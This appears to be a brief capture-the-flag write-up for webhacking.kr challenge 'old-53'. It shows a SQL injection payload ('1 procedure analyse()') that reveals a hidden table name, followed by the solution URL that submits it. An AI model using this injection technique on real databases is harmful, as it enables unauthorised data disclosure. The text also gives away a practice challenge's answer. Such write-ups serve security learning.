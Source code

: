 ```yaml
---
layout: default
title: old-53
---
```




this is another sql injection problem.

here we inject this payload first in val `1 procedure analyse()`, then we can see this result:
`webhacking.chall53_755fdeb36d873dfdeb2b34487d50a805.a`

so, we now know the secret table, which is: `chall53_755fdeb36d873dfdeb2b34487d50a805`

```
https://webhacking.kr/challenge/web-28/?answer=chall53_755fdeb36d873dfdeb2b34487d50a805
```
